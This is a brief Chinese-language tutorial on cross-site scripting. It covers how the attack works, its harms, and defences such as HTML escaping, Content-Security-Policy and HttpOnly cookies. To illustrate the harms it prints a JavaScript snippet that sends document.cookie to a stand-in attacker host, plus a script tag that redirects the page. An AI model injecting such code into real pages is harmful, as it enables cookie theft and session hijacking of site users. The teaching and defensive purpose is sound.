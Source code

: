 # XSS

XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码

XSS的攻击过程都是在浏览器通过执行javascript脚本自动进行，缺少与用户交互的过程

![img](https://segmentfault.com/img/remote/1460000012693785?w=1031&h=767)

# XSS的危害

- 窃取网页浏览中的cookie值，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。

  ```
  var i=document.createElement("img");
  document.body.appendChild(i);
  i.src ="http://www.hackerserver.com/?c=" + document.cookie;
  ```

  

- 劫持流量实现恶意跳转
想办法插入一句像这样的语句：`<script>window.location.href="http://www.baidu.com";</script>`

- 构建Get和Post请求

  XSS可以在javascript中构建get或者post请求，来实现自己的攻击

# 防范手段
可以从两方面入手：

- 想办法阻止恶意代码的注入和执行；
- 用更安全的方法校验和保护用户的身份凭证，以降低XSS攻击之后带来的危害；

1、使用HTML转义。对外部插入的内容要永远保持警惕。

对所有外部插入的代码都应该做一次转义，将script,& < > " ' /等危险字符做过滤和转义替换，同时尽量避免使用innerHTML,document.write,outerHTML,eval等方法，用安全性更高的textContent,setAttribute等方法做替代；

2、开启CSP防护。内容安全策略（CSP）的设计就是为了防御XSS攻击的，通过在HTTP头部中设置Content-Security-Policy,就可以配置该策略，如果将CSP设置成一下模式：
`Content-Security-Policy: script-src 'self'`

那么该网站将：

- 不允许内联脚本执行;
- 禁止加载外域代码;
- 禁止外域提交;

这将有效地防范XSS的攻击，当然他也非常严格，可能会对自身的业务开发也造成一定限制，更多关于CSP的内容可以查看MDN。

3、设置HttpOnly。

当然这已经是属于降低XSS危害的方法，对于所有包含敏感信息的cookie，都应该在服务端对其设置httpOnly，被设置了httpOnly的cookie字段无法通过JS获取，也就降低了XSS攻击时用户凭据隐私泄漏的风险。

